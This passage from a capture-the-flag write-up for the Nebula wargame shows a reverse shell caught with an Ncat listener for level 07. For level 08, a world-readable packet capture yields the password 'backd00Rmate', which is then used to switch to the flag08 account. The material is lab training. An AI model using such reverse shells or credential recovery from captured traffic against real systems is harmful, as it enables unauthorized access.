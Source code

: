 We obtain a shell with our listener.

```shell
Ncat: Connection from 192.168.144.192.
Ncat: Connection from 192.168.144.192:53371.
bash: no job control in this shell
flag07@nebula:/home/flag07$ whoami
whoami
flag07
flag07@nebula:/home/flag07$ id
id
uid=992(flag07) gid=992(flag07) groups=992(flag07)
flag07@nebula:/home/flag07$ getflag
getflag
You have successfully executed getflag on a target account
```

# level 08

For this level, we are told to check for world-readable files.

```shell
level08@nebula:~$ ls -lah /home/flag08
total 14K
drwxr-x--- 2 flag08 level08   86 2012-08-19 03:07 .
drwxr-xr-x 1 root   root     100 2012-08-27 07:18 ..
-rw-r--r-- 1 flag08 flag08   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag08 flag08  3.3K 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 root   root    8.2K 2011-11-20 21:22 capture.pcap
-rw-r--r-- 1 flag08 flag08   675 2011-05-18 02:54 .profile
```

We see a world-readable `capture.pcap` file. We download and open it in
Wireshark for analysis. Following the TCP stream, we see what appears to be
a login sequence over a virtual terminal. `7f` is the DEL character in ASCII
which will correspond with the backspace key being entered.

![Wireshark image](../images/nebula-wireshark.png)

That would mean that the password being used is "backd00Rmate". Using that as
the password proved to be successful.

```shell
level08@nebula:~$ su - flag08
Password:
flag08@nebula:~$ whoami
flag08
flag08@nebula:~$ id
uid=991(flag08) gid=991(flag08) groups=991(flag08)
flag08@nebula:~$ getflag
You have successfully executed getflag on a target account
```

# level 09
